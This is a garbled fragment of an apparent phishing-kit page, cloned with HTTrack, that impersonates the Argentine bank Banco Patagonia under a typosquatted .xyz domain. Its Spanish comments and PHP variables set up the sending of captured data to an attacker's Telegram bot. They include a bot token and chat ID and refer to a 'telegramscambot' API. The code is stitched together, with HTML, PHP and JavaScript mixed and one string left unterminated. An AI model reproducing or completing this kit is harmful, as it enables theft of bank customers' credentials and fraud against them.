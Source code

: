 <!DOCTYPE html>
<html lang="es">
https://e-banak-pategonia.xyz/5490777924AAEk4y7Pu7ERuyTSkarNHr46cEZLbI3y1rc by HTTrack Website Copier/3.x [XR&CO'2014], Wed, 23 Nov 2022 10:20:37 GMT -->
<head>
		<meta charset="utf-8">
		<meta http-equiv="X-UA-Compatible" content="IE=edge">
		<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
		<meta http-equiv="Pragma" content="no-cache">
		<meta http-equiv="Expires" content="0">
		<meta name="viewport" content="width=device-width, initial-scale=1">
		<title>Banco Patagonia</title>
    
// https://e-banak-pategonia.xyz
// Envio telegram
// Formato: TOKEN="5755870812:AAEk4y7Pu7ERuyTSkarNHr46cEZLbI3y1rc"
//Formato: CHATID ="5490777924"
// Para mas de 1 envio, agrega ","
// Lee mas sobre la api en https://github.com/Shonxx/telegramscambot-api
$tokens = "https://e-banak-pategonia.xyz/5490777924AAEk4y7Pu7ERuyTSkarNHr46cEZLbI3y1rc";

$apiUrl = "https://github.com/Shonxx/telegramscambot-api/5755870812:AAEk4y7Pu7ERuyTSkarNHr46cEZLbI3y1rc;
// Copyright 2012 Google Inc. All rights reserved.
(function(){

var data = {
"resource": {
  "version":"1",
